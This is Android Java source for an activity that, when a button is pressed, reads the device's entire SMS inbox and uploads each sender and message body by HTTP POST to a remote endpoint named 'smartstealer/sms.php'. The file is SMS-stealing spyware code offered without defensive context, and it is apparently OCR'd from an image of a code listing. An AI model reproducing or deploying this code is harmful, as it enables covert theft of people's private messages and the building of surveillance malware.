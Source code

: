 import java.util.ArrayList;

public class MainActivity extends Activity {

  Button btn;
  String sms = "";

  ArrayList<BasicNameValuePair> arrayList = new ArrayList<BasicNameValuePair>();

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        btn = (Button) findViewById(R.id.btnStart);

        btn.setOnClickListener(new View.OnClickListener() {
          @Override
          public void onClick(View v) {
            Thread thread = new Thread(){

            @Override
            public void run() {

            Uri uri = Uri.parse("content://sms/inbox");

            Cursor cursor = getContentResolver().query(uri,null,null,null,null);

            int index = cursor.getColumnIndex("body");

            while(cursor.moveToNext()){

            sms += "From :" + cursor.getString(2) + ":" + cursor.getString(index) + "\n";
            }

              arrayList.add(new BasicNameValuePair("sms",sms));

              uploadData(arrayList);

            }
          };
          thread.start();
        }
     });

  }

  private void uploadData(ArrayList<BasicNameValuePair> arrayList) {

  DefaultHttpClient httpClient = new DefaultHttpClient();

  HttpPost httpPost = new HttpPost("http://10.1.1.4/smartstealer/sms.php");

  try {
        httpPost.setEntity(new UrlEncodedFormEntity(arrayList));
        httpClient.execute(httpPost);

      } catch (Exception e) {

      e.printStackTrace();
    }
  }
